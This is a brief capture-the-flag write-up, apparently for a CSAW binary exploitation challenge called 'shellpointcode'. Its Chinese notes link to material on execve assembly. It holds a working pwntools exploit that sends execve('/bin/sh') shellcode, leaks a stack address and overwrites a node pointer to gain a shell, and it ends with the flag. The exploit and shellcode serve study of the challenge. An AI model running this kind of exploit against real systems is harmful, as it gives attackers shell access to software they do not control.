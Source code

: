 ```bash
0x000055d7207d08ee in ?? ()
```

execve的汇编可以参考http://spd.dropsec.xyz/2017/02/20/%E4%BB%8E%E6%B1%87%E7%BC%96%E8%A7%92%E5%BA%A6%E5%88%86%E6%9E%90execve%E5%87%BD%E6%95%B0/

EXP

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./shellpointcode')
#n = remote('pwn.chal.csaw.io',9005)
shellcode ="""
    mov rdi, rsp      /* call execve('rsp',0,0) rsp->'/bin/sh\0' */
    push 0x3b         /* sys_execve */
    pop rax
    xor esi,esi 
    syscall
"""
#print len(asm(shellcode))
#raw_input()
n.sendline(asm(shellcode))
sleep(0.1)
n.sendline('')
n.recvuntil("node.next: ")
stack = int(n.recvuntil('\n'),16)
#gdb.attach(n)
node_2 = stack + 0x28
n.sendline('a'*11 + p64(node_2) + '/bin/sh\0')
n.interactive()
```

FLAG

```
flag{NONONODE_YOU_WRECKED_BRO}
```


